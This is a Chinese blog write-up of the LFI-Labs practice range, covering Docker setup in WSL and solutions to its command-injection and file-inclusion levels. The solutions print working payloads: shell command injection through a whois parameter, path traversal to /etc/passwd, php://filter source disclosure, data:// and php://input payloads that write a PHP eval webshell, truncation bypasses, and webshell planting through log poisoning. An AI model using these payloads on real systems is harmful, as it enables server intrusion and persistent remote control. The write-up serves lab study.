


LFI-Labs 完整训练
LFI-Labs 完整训练
前言
从期末开始，学习这一块突然就一直处在十分尴尬的，迷迷糊糊好久，还是决定把这个简单的靶场搞起来刷完，虽然靶场标题显示为本地文件包含，不过事实上还有远程文件包含与命令执行。相关知识点虽然早就见识过了，在 Web 方向的刷题中一直都是老朋友，但老实说笔者对这些还是说不上十分熟悉，所以还是得专题特训一下。
由于涉及到的图片并不多，因此本文中出现的图片与博客部署位置相同，均走外网 CDN 实现全球加速，遇到加载问题请等待或刷新，若失效请及时联系本人。
特别感谢靶场作者 paralax
环境配置
由于本人主力 Linux 换为了 WSL 中的 Ubuntu 22.04，因此本次 LFI-Labs 靶场将直接部署于该环境下，为避免众多环境问题让时间成本剧增，将使用 Docker 直接部署原作者封装好的版本。
要使用 Docker 部署首先就要安装环境，相关教程网上又多又细，这里就不多赘述，此处仅保留一份命令作存档便于查询。
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31# 1. 更新
sudo apt update
sudo apt upgrade
sudo apt full-upgrade
# 2. 安装必要的证书并允许 apt 包管理器使用以下命令通过 HTTPS 使用存储库
sudo apt install apt-transport-https ca-certificates curl software-properties-common gnupg lsb-release
# 3. 添加 Docker 的官方 GPG 密钥
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo gpg --dearmor -o /usr/share/keyrings/docker-archive-keyring.gpg
# 4. 添加 Docker 官方库
echo "deb [arch=$(dpkg --print-architecture) signed-by=/usr/share/keyrings/docker-archive-keyring.gpg] https://download.docker.com/linux/ubuntu $(lsb_release -cs) stable" | sudo tee /etc/apt/sources.list.d/docker.list > /dev/null
# 5. 更新源列表
sudo apt update
# 6. 安装最新 Docker CE
sudo apt install docker-ce docker-ce-cli containerd.io docker-compose-plugin
# 7. 查看 Docker 服务器运行状态
sudo systemctl status docker
# 8. 启动命令
sudo systemctl start docker
# 9. 设为开机自启
sudo systemctl enable docker
# 10. 安装 Docker Compose
sudo pip install docker-compose在上述部署中还存在一个问题就是 WSL 中并不支持使用 systemctl 命令，不过可以直接使用 service 和 chkconfig 命令替换，仅供参考的替换格式如下表所示：
daemon命令 systemctl命令 备注 service [服务] start systemctl start [服务] 启动服务 service [服务] stop systemctl stop [服务] 停止服务 service [服务] restart systemctl restart [服务] 重启服务 chkconfig [服务] on systemctl enable [服务] 设置服务开机启动 chkconfig [服务] off systemctl disable [服务] 设备服务禁止开机启动 当然最好的方法还是恢复 systemctl 命令，这也是可以实现的，不过毕竟是 WSL，修改成功与否还得看具体环境，因此在进行以下操作前最好还是做好备份，或者干脆使用替换命令即可。开启 systemd 直接执行以下命令：
1
sudo sh -c 'echo "[boot]\nsystemd=true" >> /etc/wsl.conf'
其实就是在 etc 目录下创建个 wsl.conf 文件然后写入如下配置就行了。
1
2[boot]
systemd=true之后再重新进入子系统输入如下命令，当输出 systemd 则配置成功。
1
ps --no-headers -o comm 1
不过毕竟是 WSL，修改成功与否还得看具体环境，因此在进行以下操作前最好还是做好备份，或者干脆使用替换命令即可。
配置完 Docker 环境后直接执行如下命令把靶机文件拷贝到子系统：
1
git clone https://github.com/paralax/lfi-labs.git
之后再进入该靶机目录使用如下命令即可运行靶机：
1
sudo docker-compose up
默认映射到 8080 端口，因此直接访问子系统 IP 地址加端口号即可访问靶机。
CMD-1
打开页面如图，显示了一个警告表示 system() 不能执行空白命令，也就是说后台存在 system() 的调用，大概率可以被利用。点击显示隐藏的提示表示会执行 GET 方法传递的 cmd 变量。
都提示到这一步了，也没啥好说的了，直接使用 GET 方法传递 cmd 变量执行
ls /命令列出根目录。
CMD-2
本题与前一题类似，就是提示换成了 POST 方法传递变量。值得注意的是页面中的表单就是以 POST 方法提交的，并且参数名就是 cmd。

所以直接写入命令
ls /提交即可。
CMD-3
从页面变化来看可以发现本次传入的参数应该会作为 whois 命令的参数被执行，提示通过 GET 方法提交 domin 变量，由于惯性之前 GET 方法都是直接修改 URL 的，实测靶机中 GET 题的表单中都是 GET 方法并且变量名也设置好了，倒有些方便。
在既有命令基础上要执行其他命令直接使用分号分隔即可，当然也可使用逻辑运算符或者管道符（|），因为我们要执行的命令与既有代码完全无关，因此这里使用分号，输入
;ls /提交即可。
CMD-4
本题知识换成了 POST 方法，同样表单中都已经设计好了，因此直接输入
;ls /提交即可。
CMD-5
本题进入时就有一句提示
malformed domain name，告诉我们输入的域名不符合要求，说明后台对表单数据有过滤。点开提示说不是所有需要注入的数据都在这个输入框，因此还提交了其他数据。F12 查看源码发现此处还提交了一个隐藏的 server 变量，并且变量值设置为了whois.publicinterestregistry.net。涉及到了内容过滤以及未知用途的参数，方便起见此处就不进行黑盒测试了，直接审计源代码：
1
2
3
4
5
6
7
8# 省略非核心代码
if (preg_match('/^[-a-z0-9]+\.a[cdefgilmnoqrstuwxz]|b[abdefghijmnorstvwyz]|c[acdfghiklmnoruvxyz]|d[ejkmoz]|e[cegrstu]|f[ijkmor]|g[abdefghilmnpqrstuwy]|h[kmnrtu]|i[delmnoqrst]|j[emop]|k[eghimnprwyz]|l[abcikrstuvy]|m[acdeghklmnopqrstuvwxyz]|n[acefgilopruz]|om|p[aefghklmnrstwy]|qa|r[eosuw]|s[abcdeghijklmnortuvyz]|t[cdfghjklmnoprtvwz]|u[agksyz]|v[aceginu]|w[fs]|y[et]|z[amw]|biz|cat|com|edu|gov|int|mil|net|org|pro|tel|aero|arpa|asia|coop|info|jobs|mobi|name|museum|travel|arpa|xn--[a-z0-9]+$/', strtolower($_GET["domain"])))
{ system("whois -h " . $_GET["server"] . " " . $_GET["domain"]); }
else
{echo "malformed domain name";}
可以看出后台对 domin 变量进行了十分复杂的正则匹配的白名单过滤，该过滤是否存在漏洞这里不
懒得 作研究，值得注意的是 server 变量并没有被过滤，因此直接修改该变量即可。其中 whois 命令的 -h 参数后指定要连接的 HOST 服务器，此处保持原样或直接删去均可，在这之后直接使用分号分隔即可执行任意命令，当然最好将我们要执行的这个命令后加上或逻辑运算符（||），这样后续的 domin 参数便不会干扰命令执行。因为是 GET 方式提交，所以直接修改 URL 如下即可：1
?domain=h-t-m.top&server=whois.publicinterestregistry.net;ls%20/%20||
拼接后的命令如下：
1
whois -h whois.publicinterestregistry.net;ls / || h-t-m.top
CMD-6
本题同前一题一致，仅改为了 POST 方法传递参数，因此直接修改 POST 数据即可。
HDR-1
开幕雷击，配色干扰严重，把页面内容划出来如下图：
其中警告提示 array_key_exists() 函数缺少一个参数，而隐藏提示则是接收一个通过 Cookie 传输的参数 TEMPLATE。
由于后续无论怎么测试都无法得出什么结论，因此直接审计源码：
1
2
3
4
5
6
7
8
9
10include("../common/header.php");
<!-- from https://www.owasp.org/index.php/Path_Traversal -->
hint("will include the arg specified in the HTTP Cookie parameter \"TEMPLATE\"");
$template = 'blue.php';
if ( array_key_exists( $_COOKIE['TEMPLATE'] ) )
$template = $_COOKIE['TEMPLATE'];
include ( dirname(FILE) . "/" . $template );array_key_exists() 函数原本应该接收两个参数，作用是判断数组中是否存在对应的键，然而源码中只提供了一个从 Cookie 处获取的参数，并未提供最重要的数组，而要修改文件包含的参数就很有必要使该函数返回真值。遗憾的是，关于如何绕过本就错误调用的该函数，笔者拿不出解决方案。但是修改源码自行添加数组的话本题还是很容易完成的，不过并没有必要直接将题目修改成我会做的样子，因此这一题还是暂时搁置。
LFI-1
打开页面即可看到两条警告，都来源于 include() 函数，分别提示参数为空以及其进一步导致的文件打开失败，值得注意的是报错信息也将当前页面的详细路径泄露了出来。而本题的隐藏提示则是通过 GET 方法传递 page 参数，当然，直接在输入框中输入即可。
访问文件
根据提示，本题的所传递的 page 参数大概率就是 include() 函数的参数，所以理论上我们输入什么，后台就可以打开什么。在上一关中我们并没有成功解题，但是那题目录下有一个 blue.php 文件，可以让页面出现与前一关一样的阴间配色。所以这里我们直接包含这个文件，输入
../HDR-1/blue.php，即可得到如下页面。当然，还可以输入
/etc/passwd等路径直接读取更敏感刺激的内容。
读取脚本
上一步我们成功将指定文件的内容包含并且执行了脚本，但是很多时候对于脚本文件我们需要的可能是读取文本内容而不想让他被执行，毕竟只是执行的话，直接使用 URL 访问指定文件的效果也是一样的，而获取脚本内容的话就相当于白盒审计了！读取文本就需要使用到伪协议了，就像平常通过 http 协议或 ftp 协议直接使用 URL 对目标进行访问一样，PHP 中也支持一些带有 URL 风格的封装协议。PHP 伪协议的详细介绍可参考 官方文档，此处我们使用读取脚本内容常用的 php://filter 元封装器，可在打开数据流时进行筛选过滤操作，具有如下四个参数：
名称 描述 resource=<要过滤的数据流>这个参数是必须的。它指定了你要筛选过滤的数据流。 read=<读链的筛选列表>该参数可选。可以设定一个或多个过滤器名称，以管道符（` write=<写链的筛选列表>该参数可选。可以设定一个或多个过滤器名称，以管道符（` <；两个链的筛选列表>任何没有以 read=或write=作前缀 的筛选器列表会视情况应用于读或写链。其中，只要将 read 参数设置为 base64 加密的过滤器，resource 参数设为指定文件路径，即可将读取的数据进行 base64 加密，加密后文件将不再是可执行的脚本，因此可以直接输出。继续以上一关的 blue.php 文件为例，使用如下 payload：
1
php://filter/read=convert.base64-encode/resource=../HDR-1/blue.php
然后浏览器便可回显加密后的脚本内容，解密就拿到源码了。
写入木马
伪协议的用法还有许多，其中比较值得在意的还是可以完成写入操作，我们可以直接利用伪协议来写入木马文件。这里以 php://input 以及 data:// 为例，他们都可以直接将自己所带入的数据流当作读取到的数据流，其中 php://input 的数据放在数据包中以 POST 方式提交，而 data:// 则直接在 URL 中即可完成。只要他们成功带入以下脚本，后台在包含完成后便会完成一句话木马的创建。
1
fputs(fopen('muma.php','w'),'<?php @eval($_POST[h-t-m])?>');
要完成写入，还有一个重要前提，就是 PHP 配置文件中的 allow_url_include 与 allow_url_ fopen 均要被开启，至于他们的作用，看名字就知道了。随后直接进行写入即可，php://input 用法如下：
1
2
3
4
5URL:
?page=php://input
数据包：
<?php fputs(fopen('muma.php','w'),'<?php @eval($_POST[h-t-m])?>');?>data:// 的用法则如下：
1
?page=data://text/plain,<?php fputs(fopen('muma.php','w'),'<?php @eval($_POST[h-t-m])?>');?>
在 URL 存在一些过滤时，data:// 还可以直接传入密文并解密后再返回，比如上述 PHP 脚本的 base64 编码如下：
1
P3BhZ2U9ZGF0YTovL3RleHQvcGxhaW4sPD9waHAgZnB1dHMoZm9wZW4oJ211bWEucGhwJywndycpLCc8P3BocCBAZXZhbCgkX1BPU1RbaC10LW1dKT8+Jyk7Pz4=
其中加号等特殊字符需要自行进行编码，不然的话及其容易出错。base64 形式的用法如下：
1
?page=data://text/plain;base64,P3BhZ2U9ZGF0YTovL3RleHQvcGxhaW4sPD9waHAgZnB1dHMoZm9wZW4oJ211bWEucGhwJywndycpLCc8P3BocCBAZXZhbCgkX1BPU1RbaC10LW1dKT8%2bJyk7Pz4%3d
LFI-2
打开页面依旧有两个警告，提示 include() 函数包含的参数为
includes/.php并且包含失败，在隐藏提示中告诉我们本题使用 GET 方法接收一个 library 参数，并且会在其后拼接.php后再包含，结合此前的警告可以看出在参数之前还拼接了 includes/。此外隐藏提示还表示可通过空字符 %00 来截断绕过末尾的.php话虽这么说，这个
%00截断的方法笔者在此前 upload-labs 里早就打过招呼了，PHP 5.3.4 之后该问题就被修复了，而作者提供的容器貌似直接给到 PHP 7.0 去了，所以这个环境下%00截断的方法显然就不能用了。因此本题将直接在本地 Windows 环境下搭建，使用 PHP 5.2.13 版本，当然还有将配置文件中的 magic_quotes_gpc 设置为 Off 也就是将其关闭。
那其实主要还是考虑前置路径 includes/ 的影响，此时我们只能使用相对路径来包含文件，而至于 php 后缀名，通过具体文件来决定是否使用空字符截断即可。比如包含蓝色化的脚本使用的 payload 如下，由于文件本身即为 php 脚本文件，因此尾部等待拼接即可。
1
../../HDR-1/blue
当然也可以使用
%00来截断，使用 payload 如下：1
../../HDR-1/blue.php%00
在警告中网页路径都已给出，因此可以很容易的访问靶机中的一些其他文件，如下笔者就通过相对路径成功访问到 D 盘根目录下的 h-t-m.txt 文件了。不过由于只能使用相对路径，因此在这种情况下要跨盘符访问到 C 盘就有些复杂了，关于这一点在 Linux 系统下就没有什么问题了。
LFI-3
打开页面回显了一个警告，提示 file_get_contents() 函数参数为空，该函数会直接读取并返回指定文件内容的字符串形式，因此本次文件包含的主角就是他了。此外隐藏提示告诉我们后台会判断最后四个字符是否为
.php并告诉我们可以使用斜杆和点/.来绕过。测试直接访问 blue.php 文件，发现浏览器直接回显提示不允许查看，因此我们无法直接获取 PHP 脚本文件的内容。
但是提示说得好，斜杆和点就可以绕过了。于是加上之后，还是失败了。
至于原因，事实上笔者依然在 upload-labs 中就遇到过了。点和斜杆之所以能绕过，是因为 Windows 系统会自动忽略末尾点、斜杆、空格等无效字符，此外还有
::$DATA以及<也可以用于当前场景下的绕过。由于笔者使用的是默认的容器环境，其使用的还是 Linux 系统，相关绕过就无法实现了，因此本题依旧使用本地 Windows 环境下部署的靶机，以访问隔壁 blue.php 文件为例，输入../HDR-1/blue.php/.即可得到如下页面。那么新的问题就来了，前面说过 file_get_contents() 返回的应该是一个字符串，这页面都蓝了岂不是直接执行了。实际上这与字符串内容有关，此前关卡中提过笔者所访问的这个文件的内容如下：
1
<body style="background-color:#000067">
直接就是一句 HTML 语言，因此当它以普通字符串形式包含进当前前端页面中时，就会被认可为标准的 HTML 语句。相对的，如果包含的内容是普通文本（不含任何 HTML 标签或其他关键字符），则会在浏览器中直接输出。
值得注意的是，源码屏蔽的是 PHP 脚本文件，所以我们的目标也就是读取 PHP 脚本文件。然而正儿八经的 PHP 脚本都是有
<?php ?>包裹着的，这俩尖括号在 HTML 可就是标识标签的敏感存在，读取出来后肯定会被特殊处理，但是他又不是正常的 HTML 语句故无法被正常解析，因此这些『杂物』就会被直接注释掉，对我们的影响就是，需要看源码才能看到文件内容。
LFI-4
打开页面又是两条警告，可以看出 include() 函数再次回归，而在没有任何传参的情况下该函数会直接包含 includes/class_.php 文件。隐藏的提示告诉我们本题通过 GET 方法提交 class 变量，并且会在末尾加上
.php后缀，结合警告可以看出，后台还添加了前缀includes/class_。所以本题与 LFI-2 基本一致了，不过根据提示，本题无法使用%00进行绕过。如果只是想包含 PHP 脚本文件的话，正好省得写后缀名就好了。不过这种方式显然算不上绕过，但其实还可以使用长度截断来绕过，原理就是在 Windows 下目录最大读取长度为 256 字节，在 Linux 下则是 4096 字节，只要超过了这个长度剩余部分就会被直接去掉，正好，Windows 会自动忽略末尾无效字符，所以本关继续在本地 Windows 环境下完成，直接使用以下 payload 进行绕过，当然还需注意前缀部分的绕过。
1
/../../../HDR-1/blue.php............................................................................................................................................................................................................................................................................................................................................................................./............................................................................................................................../................................................................................/....................................................................................................................................../............................................................
结果如下图，然后就可以根据相同原理访问任何文件了，挺有意思的漏洞，不过在 PHP 5.2.8 及以后版本中已经修复了该漏洞。

LFI-5
打开页面两条警告，本题在未提交参数的情况下 include() 函数中的参数值为
pages/，隐藏的提示告诉我们会对../动手脚，但具体是什么手脚有点不太好确定，下辈子一定好好学英语 。查看源码发现实际上就是将../直接替换为空字符，并且仅作一次过滤。由于只对
../进行操作，所以绝对路径完全不受影响。但是后台自动加了前缀pages/就只能使用相对路径了，不过也可以简单绕过，毕竟仅一次过滤，使用如下 payload 双写绕过即可，当然此处得注意跳出前缀目录。1
....//..././HDR-1/blue.php
LFI-6
本题与 LFI-1 基本一致，就是换成了 POST 方法传递参数，因为页面表单都已搭配好，所以直接输入
../HDR-1/blue.php提交即可。此外笔者也在本题尝试一下写入木马到日志文件中，便于操控依旧使用 Windows 环境，其中 access.log 文件的命名被随机化了，因此使用 error.log 文件来写入木马，默认日志级别为 crit，内容过于少以至基本无法写入，故修改日志级别为 error. 首先通过日志文件路径尝试访问该文件，确认可以访问后则在 URL 中构造一句话木马并访问，由于错误的 URL 会造成报错，此时木马便成功写入该日志文件中了。
虽然写入是写入了，不过由于 URL 中的数据会自动进行编码，因此实际写入的木马却是编码后的，通过抓包直接修改数据内容即可解决这个问题，当然此处的空格问题十分值得注意。
随后使用蚁剑通过 URL 访问该日志文件即可，由于 POST 不方便直接访问因此此处借用 LFI-1 完成。
LFI-7
- 本题与 LFI-2 基本一致，也是换成了 POST 方法传递参数，所以做法依旧。不过由于 POST 提交就不能直接使用
%00来截断了，会自动对百分号进行编码而变成%2500，直接抓包修改即可。
LFI-8
- 本题与 LFI-3 基本一致，同样换成 POST 方法而已，依旧通过表单提交 payload 即可。
LFI-9
- 本题与 LFI-4 基本一致，同样换成 POST 方法而已，依旧通过表单提交 payload 即可。
LFI-10
- 本题与 LFI-5 基本一致，同样换成 POST 方法而已，依旧通过表单提交 payload 即可。
LFI-11
本题又是空空的 include() 函数，不过隐藏提示告诉我们表单并没有我们想要得一切，测试输入发现确实输入啥都没有任何反应。
查看源码发现表单所提交的并不是 include() 函数所接受的参数，而正确的参数则被设为了
hidden隐藏了起来，并且源码多设的 name 字段也让前端界面不含任何关于真实参数名为stylepath的提示。看过源码之后就简单多了，直接抓包或者通过工具提交数据即可。这里笔者图个方便，直接修改前端代码，将参数名改对让后直接提交即可。
LFI-12
本题与前一关基本一致，就是换成了 GET 方法，那就更方便了，直接使用如下 payload 加在 URL 后就行了。
1
?stylepath=../HDR-1/blue.php
LFI-13
本题与 LFI-5 基本完全一致，只是让隐藏提示不再那么直击要害了而已，并没有关键性更改，提交方法也依然是 GET 方法。
LFI-14
写在后面
本次靶机就较为简单了，结束得也略显草率，毕竟就只是过一下知识点，也没有进行深入的训练。虽然网上相关题解并没有多少，不过都是老朋友，所以基本没有啥问题，从参考链接的骤减可见端倪，
放假不愧是放假，高强度刷题还是有点困难的。本着不能太闲的原则，以本篇简单靶场为起点，没想法的时候就多打打靶机写写博客。更新频率和咱的学习态度还是存在很大关系的，得抓紧把之前挖的坑都填掉，落太多东西了。
开年第一篇，期待一下将会充满挑战的 2023 年。
参考链接
- 如何在 Ubuntu 22.04 LTS 中安装 Docker 和 Docker Compose
- Sk，译 LCTT Donkey，2022-07-28 - 喜迎 WSL 1.0 发布，Windows 10 的 WSL 2 也可以用 systemd 了，再水一篇安装教程
- 善良超锅锅，2022-11-25 - Linux 之 systemctl—service 和 chkconfig 的替代者
- leon.han，2019-03-21 - 支持的协议和封装协议
- PHP 手册 - 文件包含 & LFI-labs靶场
- 安全小天地，2022-04-13